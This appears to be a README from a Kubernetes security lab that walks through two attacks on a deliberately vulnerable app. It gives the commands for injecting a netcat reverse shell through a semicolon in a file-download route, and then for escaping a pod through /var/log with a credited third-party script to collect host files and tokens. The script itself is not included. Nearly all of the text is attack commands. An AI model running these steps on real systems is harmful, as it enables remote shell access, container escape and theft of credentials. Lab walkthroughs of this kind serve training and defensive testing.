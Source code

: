 # Reverse Shell

1 - On you host run the following command in a terminal
```bash
nc -lvp 4242
```

2 - Pass a reverse shell command after a semicolumn in the `GET /file/:filename` route, to execute these commands on the server:


```bash
apt update
apt install netcat-traditional

nc -e /bin/sh 172.17.0.1 4242
# 172.17.0.1 being my IP adress with k3d
```

3 - And tadaaa! You have a Reverse Shell on you host!


# Pod Escape through /var/log

> [!NOTE]
> Credits goes to [danielsagi](https://github.com/danielsagi/kube-pod-escape) for the exploit and the script

1 - On you host run the following command in a terminal
```bash
apt install python3 python3-pip python3-netifaces python3-requests python3-bs4

cat << 'EOF' > /get_host_files.py
<paste the contents of the python script>
EOF

python3 /get_host_files.py
```

And now every tokens are in the `host` directory 
